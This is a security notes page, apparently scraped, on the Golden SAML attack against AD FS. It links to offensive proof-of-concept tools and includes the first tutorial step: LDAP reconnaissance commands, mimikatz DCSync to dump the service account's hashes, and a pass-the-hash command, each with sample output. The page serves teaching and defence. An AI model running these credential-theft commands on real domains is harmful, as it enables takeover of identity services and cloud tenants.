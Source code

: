 Golden SAML Attack

##
#
https://www.netwrix.com/golden_saml_attack.html
#
https://github.com/cyberark/shimit
#
https://github.com/secureworks/whiskeysamlandfriends
#
##

# WhiskeySAML and Friends

## TicketsPlease

[TicketsPlease](ticketsplease/): Python library to assist with the generation of Kerberos tickets, remote retrieval of ADFS configuration settings, generation of Golden SAML tokens, and retrieval of Azure Access Tokens.

## WhiskeySAML

[WhiskeySAML](whiskeysaml/): Proof of concept tool for a Golden SAML attack with Remote ADFS Configuration Extraction. This tool leverages the TicketsPlease library.

## ShockNAwe

[ShockNAwe](shocknawe/): Proof of concept tool to generate a Golden SAML token that will be used to request an Access Token from Azure Core Management which will then be used to enumerate and attack the virtual machines within the Azure subscription.

## DirectWave

[DirectWave](directwave/): Proof of concept tool to enumerate and execute commands on all Azure tenant Virual Machines when an Azure Core Management Access Token is supplied by the tool operator.

##
##
Active Directory
Credential Access
ADFS
Golden SAML is similar in concept to the Golden Ticket technique. The difference is that instead of compromising the Active Directory secret that signs Kerberos tickets, the adversary compromises the secret used to sign the SAML assertions created by Active Directory Federation Services (AD FS), which is frequently used to extend the Active Directory identity to cloud applications.

For a Golden SAML attack, an adversary must first compromise the AD FS service account on the AD FS server. Once authenticated as the AD FS service account, they can use tools such as ADFSDump to extract the required information: 
 • The token signing certificate and its private key
 • The Distributed Key Manager (DKM) key from Active Directory
 • The list of services for which the AD FS server is configured to be an identity provider

THREAT SUMMARY
Target:
AD FS and associated services
Tools:
AAD Internals, ADFSDump, shimit, ADFSpoof, mimikatz
ATT&CK® Tactic:
Credential Access
ATT&CK Technique:
Forge Web Credentials: SAML Tokens
DIFFICULTY
Detection:
Hard
Mitigation:
Medium
Response:
Hard
Attack Tutorial: How the Golden SAML Attack Works

STEP 1
Compromise the AD FS service
An adversary can use any of a number of different methods to compromise the AD FS service. In general, any means of obtaining administrative access to the AD FS server is sufficient. The example below uses a few techniques: LDAP reconnaissance to discover AD FS, DCSync to export the service account’s hashes, and then Pass the Hash (PtH) to gain a session on the AD FS Server as the service account.
Code
# LDAP reconnaissance for AD FS / AADC Items
## ADFS Uses a Host SPN on the service account for the ADFS Service Portal. If the portal is known (ADFS/STS/FS etc.) it can be discovered
Get-ADObject -filter { ServicePrincipalName -contains “*adfs*” -or ServicePrincipalName -contains “*STS*” -or ServicePrincipalName -contains “*FS*” }

## ADFS User/Service/computer Accounts
Get-ADObject -filter { samaccountname -like “*adfs*” -or description -like “*adfs*” -or description -like “*aadc*” }


# Found GMSA Account named adfssvc$
.\mimikatz.exe “lsadump::dcsync /user:adfssvc$”

# Execute PtH 
.\mimikatz.exe “privilege::debug” “sekurlsa::pth /user:aadcsvc$ /domain:domain.local /ntlm:f0f13a15b218cb98d1ada6484e380fe6 /aes256:f66c03bf486b3b5c7c40d526af00d3b89bf2f120a24059a739005a1c17d1d909 /aes128:569afe31a386f460e69e7915895837f8”
Output
# Command 1 #
DistinguishedName                               Name             ObjectClass ObjectGUID
-----------------                                ----              ----------- ----------
CN=ADFS,OU=Servers,DC=domain,DC=local           ADFS             computer   fbf560c9-da5e-42b9-8f80-9c9a37006c9b
CN=MSOL_81f4a7929078,CN=Users,DC=domain,DC=local MSOL_81f4a7929078 user       38348edf-8a4a-400e-83b4-eb88a57b78a7

# Command 2 #
DistinguishedName                                         Name   ObjectClass                     ObjectGUID
-----------------                                         ----    -----------                     ----------
CN=ADFS,OU=Servers,DC=domain,DC=local                     ADFS   computer                       fbf560c9-da5e-42b9…
CN=aadcsvc,CN=Managed Service Accounts,DC=domain,DC=local aadcsvc msDS-GroupManagedServiceAccount f1709f9d-e137-4185.

# Command 3 # 
mimikatz(commandline) # lsadump::dcsync /user:domain\da
[DC] 'domain.local' will be the domain
[DC] 'DC.domain.local' will be the DC server
[DC] 'aadcsvc$ ' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)
Object RDN           : DA
--- Output truncated ---
Credentials:
  Hash NTLM: f0f13a15b218cb98d1ada6484e380fe6
--- Output truncated ---
* Primary:Kerberos-Newer-Keys *
    Default Salt : DOMAIN.LOCALDA
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : f66c03bf486b3b5c7c40d526af00d3b89bf2f120a24059a739005a1c17d1d909
      aes128_hmac       (4096) : 569afe31a386f460e69e7915895837f8

# Command 4 #
# New Window Opens for PTH #
